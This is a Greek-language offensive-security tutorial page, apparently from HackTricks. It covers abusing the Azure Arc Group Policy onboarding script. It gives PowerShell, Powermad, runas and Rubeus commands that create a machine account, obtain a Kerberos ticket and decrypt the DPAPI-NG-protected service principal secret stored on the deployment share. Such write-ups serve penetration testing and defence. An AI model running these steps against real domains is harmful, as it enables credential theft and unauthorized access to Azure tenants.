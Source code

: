 # Az - Arc ευάλωτο GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Αναγνώριση των Θεμάτων

Το Azure Arc επιτρέπει την ενσωμάτωση νέων εσωτερικών διακομιστών (συνδεδεμένων διακομιστών τομέα) στο Azure Arc χρησιμοποιώντας τη μέθοδο Group Policy Object. Για να διευκολυνθεί αυτό, η Microsoft παρέχει ένα εργαλείο ανάπτυξης απαραίτητο για την έναρξη της διαδικασίας onboarding. Μέσα στο αρχείο ArcEnableServerGroupPolicy.zip, μπορούν να βρεθούν τα εξής σενάρια: DeployGPO.ps1, EnableAzureArc.ps1 και AzureArcDeployment.psm1.

Όταν εκτελείται, το σενάριο DeployGPO.ps1 εκτελεί τις εξής ενέργειες:

1. Δημιουργεί το Azure Arc Servers Onboarding GPO εντός του τοπικού τομέα.
2. Αντιγράφει το σενάριο onboarding EnableAzureArc.ps1 στο καθορισμένο κοινόχρηστο δίκτυο που έχει δημιουργηθεί για τη διαδικασία onboarding, το οποίο περιέχει επίσης το πακέτο εγκατάστασης των Windows.

Κατά την εκτέλεση αυτού του σεναρίου, οι διαχειριστές συστημάτων πρέπει να παρέχουν δύο κύριες παραμέτρους: **ServicePrincipalId** και **ServicePrincipalClientSecret**. Επιπλέον, απαιτούνται άλλες παράμετροι όπως ο τομέας, το FQDN του διακομιστή που φιλοξενεί το κοινόχρηστο, και το όνομα του κοινόχρηστου. Περαιτέρω λεπτομέρειες όπως το tenant ID, η ομάδα πόρων και άλλες απαραίτητες πληροφορίες πρέπει επίσης να παρέχονται στο σενάριο.

Ένα κρυπτογραφημένο μυστικό δημιουργείται στον κατάλογο AzureArcDeploy στο καθορισμένο κοινόχρηστο χρησιμοποιώντας κρυπτογράφηση DPAPI-NG. Το κρυπτογραφημένο μυστικό αποθηκεύεται σε ένα αρχείο με όνομα encryptedServicePrincipalSecret. Απόδειξη αυτού μπορεί να βρεθεί στο σενάριο DeployGPO.ps1, όπου η κρυπτογράφηση εκτελείται καλώντας το ProtectBase64 με $descriptor και $ServicePrincipalSecret ως είσοδοι. Ο περιγραφέας αποτελείται από τα SIDs της ομάδας Domain Computer και Domain Controller, διασφαλίζοντας ότι το ServicePrincipalSecret μπορεί να αποκρυπτογραφηθεί μόνο από τις ομάδες ασφαλείας Domain Controllers και Domain Computers, όπως σημειώνεται στα σχόλια του σεναρίου.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Εκμετάλλευση

Έχουμε τις εξής συνθήκες:

1. Έχουμε διεισδύσει με επιτυχία στο εσωτερικό δίκτυο.
2. Έχουμε τη δυνατότητα να δημιουργήσουμε ή να αναλάβουμε τον έλεγχο ενός λογαριασμού υπολογιστή εντός του Active Directory.
3. Έχουμε ανακαλύψει μια κοινή χρήση δικτύου που περιέχει τον φάκελο AzureArcDeploy.

Υπάρχουν αρκετές μέθοδοι για να αποκτήσουμε έναν λογαριασμό μηχανής σε ένα περιβάλλον AD. Μία από τις πιο κοινές είναι η εκμετάλλευση του ποσοστού λογαριασμών μηχανών. Μια άλλη μέθοδος περιλαμβάνει την παραβίαση ενός λογαριασμού μηχανής μέσω ευάλωτων ACL ή διάφορων άλλων κακών ρυθμίσεων.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Αφού αποκτηθεί ένας λογαριασμός μηχανής, είναι δυνατή η αυθεντικοποίηση χρησιμοποιώντας αυτόν τον λογαριασμό. Μπορούμε είτε να χρησιμοποιήσουμε την εντολή runas.exe με την επιλογή netonly είτε να χρησιμοποιήσουμε pass-the-ticket με το Rubeus.exe.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Έχοντας το TGT για τον λογαριασμό του υπολογιστή μας αποθηκευμένο στη μνήμη, μπορούμε να χρησιμοποιήσουμε το παρακάτω σενάριο για να αποκρυπτογραφήσουμε το μυστικό του service principal.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Εναλλακτικά, μπορούμε να χρησιμοποιήσουμε [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Σε αυτό το σημείο, μπορούμε να συγκεντρώσουμε τις υπόλοιπες πληροφορίες που χρειάζονται για να συνδεθούμε στο Azure από το αρχείο ArcInfo.json, το οποίο είναι αποθηκευμένο στο ίδιο κοινόχρηστο δίκτυο με το αρχείο encryptedServicePrincipalSecret. Αυτό το αρχείο περιέχει λεπτομέρειες όπως: TenantId, servicePrincipalClientId, ResourceGroup και άλλα. Με αυτές τις πληροφορίες, μπορούμε να χρησιμοποιήσουμε το Azure CLI για να αυθεντικοποιηθούμε ως ο παραβιασμένος service principal.

## Αναφορές

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
